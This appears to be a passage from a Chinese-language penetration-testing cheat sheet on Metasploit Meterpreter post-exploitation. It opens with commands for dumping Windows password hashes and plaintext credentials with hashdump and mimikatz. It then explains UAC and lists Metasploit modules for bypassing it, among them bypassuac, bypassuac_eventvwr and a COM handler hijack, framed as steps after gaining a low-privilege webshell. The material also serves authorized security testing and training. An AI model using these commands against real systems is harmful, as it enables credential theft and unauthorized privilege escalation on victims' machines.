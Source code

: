 **抓取密码**
```bash
run hashdump                        # 获取用户密码 hash 值
load mimikatz                       # 加载 mimikatz,用于抓取密码,不限于明文密码和 hash 值;
msv                                 # 获取的是 hash 值
ssp                                 # 获取的是明文信息
wdigest                             # 读取内存中存放的账号密码明文信息
mimikatz_command -f samdump::hashes # 获取用户 hash
mimikatz_command -f handle::list    # 列出应用进程
mimikatz_command -f service::list   # 列出服务
```

### 权限提升

**绕过 UAC**

通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

1. 什么是 UAC？

    Microsoft 的 Windows Vista 和 Windows Server 2008 操作系统引入了一种良好的用户帐户控制架构,以防止系统范围内的意外更改,这种更改是可以预见的,并且只需要很少的操作量.它是 Windows 的一个安全功能,它支持防止对操作系统进行未经授权的修改,UAC 确保仅在管理员授权的情况下进行某些更改.如果管理员不允许更改,则不会执行这些更改,并且 Windows 系统保持不变.

2. UAC 如何运行？

    UAC 通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行.除非尝试执行这些操作的进程以管理员权限运行,否则这些操作将无法运行.如果您以管理员身份运行程序,则它将具有更多权限,因为它将被"提升权限",而不是以管理员身份运行的程序.

    因为有的用户是没有管理员权限,没有管理员权限是运行不了那些只能通过管理员权限才能操作的命令.比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作.

    最直接的提权命令:getsystem

    绕过 UAC 防护机制的前提是我们首先通过 explloit 获得目标主机的 meterprter.获得 meterpreter 会话 1 后,输入以下命令以检查是否是 system 权限.在这里我就不直接演示了,直接上命令,自己多练习练习即可,所话说熟能生巧.我们需要把获取到的 session 保存到后台,执行 background

```bash
use exploit/windows/local/bypassuac
# 将通过进程注入使用可信任发布者证书绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.
sessions        # 查看目前的 session
sessions -k     # 杀死所有 session
set session     # 设为你需要 exploit 的 session
```

- **Windows权限提升绕过UAC保护(内存注入)**
    ```
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

- **通过 COM 处理程序劫持**

    首先介绍一下这个 COM 处理程序劫持,此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```
